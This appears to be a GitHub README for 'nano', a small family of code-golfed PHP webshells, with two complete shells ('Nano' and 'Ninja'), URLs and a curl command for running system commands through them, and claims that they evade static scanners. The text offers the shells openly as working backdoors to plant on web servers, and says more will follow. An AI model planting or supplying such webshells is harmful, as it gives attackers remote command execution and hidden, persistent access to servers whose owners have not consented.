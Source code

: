 # nano
Nano is a family of PHP webshells which are code golfed to be extremely stealthy and efficient.\
Put it on watch maybe, I will continue to upload more webshells in here.

### Nano
```php
<?$x=$_GET;($x[p]=='_'?$x[f]($x[c]):y);
```
#### Features
- 39 bytes in size
- Can't be detected by static code scanners
- Supports authentication

#### Usage
`http://example.com/nano.php?f=function&c=command&p=password`

`f` is for function\
`c` is for command\
`p` is for password

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls&p=password`

### Ninja
```php
<?$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```
#### Features
- 93 bytes in size
- Fully Undetectable

#### Usage
This one a bit complex.\
Lets say you want to run `system(ls)` so write it as `system~` and then base64 encode it i.e. `c3lzdGVtKGxzKQ==`\
Now add any **1** character at the start of it. Let say 'x' so it will be `xc3lzdGVtKGxzKQ==`\
Now open your terminal and type the following command\
`curl -H 'x: xc3lzdGVtKGxzKQ==' http://example.com/backdoored.php`\
Too much work? You can use the [handler](https://github.com/UltimateHackers/nano/blob/master/handler.py) instead.

![handler](https://i.imgur.com/hkAHGwH.png)

#### Everything Else
This is my first php thingy so if there's way to do what I did in a better way please let me know or open a pull request.\
This 39 characters of code is licensed under **MIT license** which basically means you have to give me credit if you want to redistribute or modify it.
